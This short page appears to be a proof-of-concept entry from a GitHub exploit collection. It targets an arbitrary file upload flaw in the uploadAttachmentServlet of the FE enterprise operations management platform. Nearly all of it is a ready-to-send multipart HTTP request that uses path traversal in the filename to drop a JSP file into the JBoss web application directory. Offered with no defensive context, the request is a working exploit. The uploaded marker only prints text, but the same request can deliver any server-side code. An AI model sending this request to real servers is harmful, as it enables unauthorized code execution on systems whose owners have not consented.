 # fe_uploadattachmentservlet_fileupload

from:  https://github.com/wy876/POC/blob/main/%E9%A3%9E%E4%BC%81%E4%BA%92%E8%81%94-FE%E4%BC%81%E4%B8%9A%E8%BF%90%E8%90%A5%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0uploadAttachmentServlet%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.3.25 @2
```
POST /servlet/uploadAttachmentServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Length: 325

------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="uploadFile"; filename="../../../../../jboss/web/fe.war/123123.jsp"
Content-Type: text/plain

<% out.println("123123");%>
------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="json"

{"iq":{"query":{"UpdateType":"mail"}}}
------WebKitFormBoundaryKNt0t4vBe8cX9rZk--

```
